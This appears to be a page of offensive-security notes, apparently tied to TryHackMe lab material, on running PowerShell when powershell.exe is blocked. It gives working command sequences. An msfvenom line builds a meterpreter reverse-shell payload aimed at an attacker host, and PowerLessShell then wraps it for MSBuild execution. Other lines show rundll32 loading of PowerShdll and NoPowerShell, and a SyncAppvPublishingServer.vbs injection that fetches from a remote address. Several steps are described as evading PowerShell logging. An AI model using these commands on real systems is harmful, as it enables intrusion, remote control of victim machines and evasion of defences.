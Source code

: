 # Powershell Without Powershell.exe

## Theory

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it. If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## Practice

{% tabs %}
{% tab title="PowerLessShell" %}
[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

```bash
#Generate a malisious powershell script
v4resk@kali$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

#Generate a .csproj with PowerLessShell
v4resk@kali$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

#Execute it on the target with MSBuild.exe
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
{% endtab %}

{% tab title="PowerShdll" %}
We can load powerShdll with rundll32.exe to gain a shell

```bash
C:\Users\v4resk> rundll32.exe PowerShdll.dll,main
```
{% endtab %}

{% tab title="SyncAppvPublishingServer" %}
Windows 10 comes with SyncAppvPublishingServer.exe and SyncAppvPublishingServer.vbs that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```bash
C:\Users\v4resk> SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```
{% endtab %}

{% tab title="NoPowershell" %}
[NoPowerShell](https://github.com/bitsadmin/nopowershell) is a tool implemented in C# which supports executing PowerShell-like commands while remaining invisible to any PowerShell logging mechanisms.

This .NET Framework 2 compatible binary can be loaded in Cobalt Strike to execute commands in-memory. No `System.Management.Automation.dll` is used; only native .NET libraries. An alternative usecase for NoPowerShell is to launch it as a DLL via rundll32.exe:&#x20;

```powershell
rundll32 NoPowerShell.dll,main
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/powershell-without-powershell" %}
